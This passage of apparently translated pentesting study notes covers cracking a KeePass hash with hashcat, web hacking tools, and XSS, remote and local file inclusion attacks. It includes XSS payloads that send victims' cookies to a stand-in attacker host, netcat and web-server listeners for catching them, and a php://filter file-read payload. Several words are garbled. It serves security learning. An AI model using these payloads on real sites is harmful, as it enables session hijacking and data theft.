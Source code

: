 To remove a password from a password manager (not in ram), such as Keypass, you must first search the password database, which in this program is in `Documents/password.kdbx`. We can use `keypass2jhon.py` to remove hashes from the keypass database. Now the `password` that appears in the generated file is cleaned and the hash is hashed by hashcat:
```console
Anthares101@kali:~$ hashcat -m 13400 -a 0 -w 1 file dictionary --force --show #13400 is the keypass type
```

# Hacking web

## Tools

- We can use the debugguer and browser console to defuse code and execute functions. You can also look at the network to look at requests (what is sent and received) to get information.
- You can use curl to modify the headers that are sent to a website:
	- **`-X`:** Changes request type
	- **`-v`:** More information in the command output
	- **`-H`:** To edit headers: `User-Agent: kali`
- **Burpsuite:** Captures all browser requests and allows editing them. The repeater module allows us to send and receive headers as if we were the browser going (the ones we want)
- **OWASP ZAP:** Web security scanner
- [**Nikto**](https://github.com/sullo/nikto)**:** Web Vulnerability Scanner
- **WebShells:** Web-based implementation of the shell concept. [Example](https://github.com/flozz/p0wny-shell)
- **ReverseShells:** The target makes the connection and initiates a shell while the attacker listens and then accesses that shell
- To get all directories from a website we can use [gobuster](https://github.com/OJ/gobuster) or OWASP DirBuster. Using gobuster we can even search for files using the `-x` parameter followed by the file extensions to search for
- If you find a `.git` on a website, download it. [GitTools] (https://github.com/internetwache/GitTools) has interesting things to work with repositories (Like to download them from a website)
- [**CeWL**](https://github.com/digininja/CeWL)**:** Custom wordlist generator. Analyze a specific URL with a certain depth and generate a wordlist with the words that it considers relevant
- [**Wfuzz**](https://github.com/xmendez/wfuzz)**:** Ease web fuzzing
- [**Feroxbuster**](https://github.com/epi052/feroxbuster)**:** Enumerate all directories from a website with the possibility of a recursive scan. Also helps finding backup files
- [**EyeWitness**](https://github.com/FortyNorthSecurity/EyeWitness)**:** It is designed to take screenshots of websites provide some server header info, and identify default credentials if known

## Attacks

- **Cross-site scripting:** Injection of malicious Javascript code into one page:
	- A fairly silent payload (does no redirect) would be using AJAX: `<script>let request ? new XMLHttpRequest();request.open('GET', 'atackerSite?'+document.cookie, true);request.send();</script>`
	- Another payload: `<script>new Image().src = 'atackerSite/flag.php?'+document.cookie;</script>`
	- As a final note, to listen to the requests there are several options:
		- **`nc`:** For this I recommend doing : `while [ 1 -eq 1 ]; do sudo nc -lnvp 80; done` because after every request it closes
		- With the command `sudo python3 -m http.server 80` you can mount a web server at the root in the directory wherever you are
		- Another option is to use https://hookbin.com/. You can create endpoints and monitor requests (It's the simplest of all)
- **Inclusion of remote files:** The `page` parameter is used in the url to see which page the include is made from and that a file is uploaded from another site. You can run a `webshell` to control and see everything on the server
- **Local file inclusion attacks:** Include a local file, template sites or exposed downloads within the website. For example, when you pass by url the file you want to use for something. If you do not dimension what the web server can access, you can access files from Linux or Windows itself where the page is hosted. In `PHP` servers we can use `php://filter/convert.base64-encode/resource=PATH_TO_FILE` to get files with the `php` extension without executing it. Also if there are web logs we would be able to modify our requests to get RCE